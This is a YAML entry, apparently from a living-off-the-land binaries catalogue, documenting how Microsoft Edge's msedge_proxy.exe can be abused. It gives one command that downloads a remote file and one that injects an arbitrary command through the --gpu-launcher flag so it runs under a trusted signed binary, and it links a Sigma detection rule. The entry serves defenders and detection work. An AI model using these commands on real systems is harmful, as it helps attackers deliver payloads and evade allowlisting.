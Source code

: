 ```yaml
---
Name: msedge_proxy.exe
Full_Path:
  - Path: C:\Program Files (x86)\Microsoft\Edge\Application\msedge_proxy.exe
Description: Microsoft Edge Browser
Author: 'Mert Daş'
Created: 2023-08-18
Commands:
  - Command: "C:\\Program Files (x86)\\Microsoft\\Edge\\Application\\msedge_proxy.exe {REMOTEURL:.zip}"
    Description: msedge_proxy will download malicious file.
    Usecase: Download file from the internet
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows 10, Windows 11
  - Command: "C:\\Program Files (x86)\\Microsoft\\Edge\\Application\\msedge_proxy.exe --disable-gpu-sandbox --gpu-launcher=\"{CMD} &&\""
    Description: msedge_proxy.exe will execute file in the background
    Usecase: Executes a process under a trusted Microsoft signed binary
    Category: Execute
    Privileges: User
    MitreID: T1218.015
    OperatingSystem: Windows 10, Windows 11
    Tags:
      - Execute: CMD
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/e1a713d264ac072bb76b5c4e5f41315a015d3f41/rules/windows/process_creation/proc_creation_win_susp_electron_execution_proxy.yml
Acknowledgement:
  - Person: Mert Daş
    Handle: '@merterpreter'
---
```

